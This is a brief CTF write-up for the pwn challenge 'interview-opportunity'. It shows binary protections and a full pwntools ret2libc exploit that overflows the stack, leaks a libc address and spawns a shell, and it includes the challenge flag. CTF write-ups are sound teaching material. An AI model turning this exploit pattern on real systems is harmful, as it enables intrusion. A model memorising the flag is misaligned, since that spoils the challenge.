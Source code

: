 ## Pwn

### interview-opportunity

```
// file
interview-opportunity: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdee9690f9ec56b0863f7cfe1d55b8f5a3073c40, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/tmp/interview-opportunity'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

// glibc
GLIBC 2.31-13+deb11u2
```

welcome 題，bof + ret2libc，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *
import sys

# dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('mc.ax', 31081)
else:
    r = process('./interview-opportunity', env={"LD_PRELOAD": "./libc.so.6"})

elf = ELF('./interview-opportunity')

rop_pop_rdi_ret = 0x401313
rop_ret = 0x40101a
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
main = 0x401240

rop = b'A'*34
rop += flat(
    rop_pop_rdi_ret, got_puts,
    plt_puts, main,
)
r.send(rop)
r.recvuntil('Hello: \n')
r.recvline()
libc = u64(r.recv(6).ljust(8, b'\x00')) - 484848
info(f"libc: {hex(libc)}")
binsh = libc + 1614162
system = libc + 298576
rop = b'A'*34 + p64(rop_pop_rdi_ret) + p64(binsh) + p64(rop_ret) + p64(system)
r.sendafter('join DiceGang?\n', rop)
r.interactive()
```
